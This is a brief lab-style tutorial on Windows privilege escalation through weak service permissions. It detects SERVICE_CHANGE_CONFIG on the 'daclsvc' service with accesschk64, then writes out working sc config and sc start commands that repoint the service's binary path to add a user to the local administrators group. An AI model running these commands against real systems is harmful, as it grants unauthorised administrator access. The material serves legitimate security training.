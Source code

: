 # Escalation Path Service Permissions

## Binary - Path

### Binary Path in Windows Services

A **binary path** (`binpath`) in Windows services defines the **executable file** that runs when the service starts. This path is stored in the **Windows Registry** and tells the system what to execute when a service is launched.

### How is it Exploited for Privilege Escalation?

If a user has **SERVICE_CHANGE_CONFIG** permissions on a service, they can **modify the binary path** and point it to a **malicious command or executable**. When the service is restarted, Windows will execute the new binary **with system-level privileges**.

### Detection

**Windows VM**

```
accesschk64.exe
```

Open command prompt and type: 

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc
```

Notice that the output suggests that the user “`User-PC\User`” has the “`SERVICE_CHANGE_CONFIG`” permission.

### Exploitation

**Windows VM**

In command prompt type:

```
sc config daclsvc binpath= "net localgroup administrators user /add" 
``` 

In command prompt type: 

```
sc start daclsvc
```

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt:

```
net localgroup administrators
```





